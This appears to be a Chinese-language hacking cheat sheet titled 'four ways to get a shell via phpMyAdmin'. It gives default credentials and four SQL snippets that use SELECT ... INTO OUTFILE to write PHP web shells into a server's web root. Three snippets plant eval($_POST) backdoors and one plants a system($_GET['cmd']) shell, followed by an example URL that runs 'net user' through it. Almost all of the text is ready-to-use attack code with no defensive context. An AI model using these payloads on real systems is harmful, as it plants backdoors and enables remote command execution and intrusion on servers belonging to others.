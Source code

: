 # phpmyadmin拿shell的四种方法

查看版本：test.php 或 phpinfo.php

默认账号密码：root rootz

万能帐号密码：'localhost'@'@" 密码空

**第一种方法：**

```
CREATE TABLE `mysql`.`darkmoon` (`darkmoon1` TEXT NOT NULL );
INSERT INTO `mysql`.`darkmoon` (`darkmoon1` ) VALUES ('<?php @eval($_POST[pass]);?>');
SELECT `darkmoon1` FROM `darkmoon` INTO OUTFILE 'd:/wamp/www/darkmoon.php';
DROP TABLE IF EXISTS `darkmoon`;
```

**第二种方法：**

```
Create TABLE moon (darkmoon text NOT NULL);
Insert INTO moon (darkmoon) VALUES('<?php @eval($_POST[pass]);?>');
select darkmoon from moon into outfile 'd:/wamp/www/darkmoon2.php';
Drop TABLE IF EXISTS moon;
```

**第三种方法：**

```
select '<?php @eval($_POST[pass]);?>'INTO OUTFILE 'd:/wamp/www/darkmoon3.php'
```

**第四种方法**

```
select '<?php echo \'<pre>\';system($_GET[\'cmd\']); echo \'</pre>\'; ?>' INTO OUTFILE 'd:/wamp/www/darkmoon4.php'

127.0.0.1/darkmoon4.php?cmd=net user
```